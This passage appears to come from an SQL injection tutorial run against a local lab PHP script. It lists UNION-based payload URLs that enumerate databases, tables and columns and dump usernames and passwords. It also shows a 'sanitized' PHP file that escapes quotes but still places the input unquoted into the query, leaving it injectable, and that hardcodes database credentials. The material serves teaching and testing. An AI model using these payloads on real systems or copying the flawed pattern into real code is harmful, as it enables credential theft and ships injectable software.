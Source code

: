 ```php

# The best and easiest way to do that is concatenating the result separated by commas
http://localhost/searchUsers.php?id=123456' union select group_concat(schema_name) from information_schema.schemata # This will return something like 'database1,database2,database3...'

# For obtaining what tables are included inside a provided database
http://localhost/searchUsers.php?id=123456' union select group_concat(table_name) from information_schema.tables where table_schema='SampleDB'-- -

# For obtaining what columns are included inside a provided table
http://localhost/searchUsers.php?id=123456' union select group_concat(column_name) from information_schema.columns where table_schema='SampleDB' and table_name='users'-- -

# If we are inside the wanted database (check with database()) we can obtain the values inside the columns
http://localhost/searchUsers.php?id=123456' union select group_concat(username) from users-- -
http://localhost/searchUsers.php?id=123456' union select group_concat(password) from users-- -
http://localhost/searchUsers.php?id=123456' union select group_concat(username,':',password) from users-- - # Here we concatenate two columns
http://localhost/searchUsers.php?id=123456' union select group_concat(username,0x3a,password) from users-- - # Here we concatenate two columns, but using hexa value for ':' for avoiding errors with quotes

# Just in case we are not inside the wanted database, we need to specify what database we want to read
http://localhost/searchUsers.php?id=123456' union select group_concat(username) from SampleDB.users-- -
```

If we don't get any error by console, we can anyway keep trying looking at web changes.

This new .php file will have the quote sanitized:

```php
<?php

	$server = "localhost";
	$username = "loki";
	$password = "loki123";
	$database = "SampleDB";

	# Connection to the database
	$conn = new mysqli($server, $username, $password, $database);

	# Sanitized quote
	$id = mysqli_real_escape_string($conn, $_GET['id']);

	$data = mysqli_query($conn, "select username from users where id = $id");

	$response = mysqli_fetch_array($data);

    if(! isset($response['username'])){
      http_response_code(404);
    }
	
?>
```
